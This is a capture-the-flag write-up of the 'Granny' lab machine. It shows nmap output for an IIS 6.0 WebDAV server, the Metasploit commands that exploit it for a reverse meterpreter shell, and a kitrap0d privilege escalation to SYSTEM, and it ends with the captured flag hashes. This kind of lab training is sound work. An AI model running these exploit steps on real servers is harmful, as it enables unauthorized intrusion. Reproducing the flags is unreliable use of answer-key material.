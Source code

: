 # Granny

## IP

> 10.10.10.15
## nmap Scan

```
nmap -T4 -A 10.10.10.15 -Pn
```

```a
Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 04 Aug 2021 04:51:02 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   68.68 ms 10.10.16.1
2   68.72 ms 10.10.10.15
```

## Open Ports
       
>80/tcp open  http    Microsoft IIS httpd 6.0

HTTP

## HTTP

http://10.10.10.14/

The server is using " Microsoft IIS httpd 6.0" so I searched online for exploits and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)

I followed the steps and I we got a meterpreter shell! But I cannot do anything, a lot of access denied :(

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.15
set lhost tun0
```

I also tried using the suggester and all the options got access denied

> [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

The problem was that we were in a folder with no System Access

Locating a better folder

```ps```

![[Pasted image 20210804003440.png]]

We need to migrate to a session with Network Service

```migrate 1840```

```getuid```

>Server username: NT AUTHORITY\NETWORK SERVICE

Now we are an user on the machine, but still not System.... Lets try the suggester again 

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

We are System!!!

### Finding user.txt

```
cd c:\\"Documents and Settings"\\Lakis\\Desktop
cat user.txt
```

> bdff5ec67c3cff017f2bedc146a5d869

### Finding root.txt

```
cd c:\\"Documents and Settings"\\Administrator\\Desktop
cat root.txt
```

> aa4beed1c0584445ab463a6747bd06e9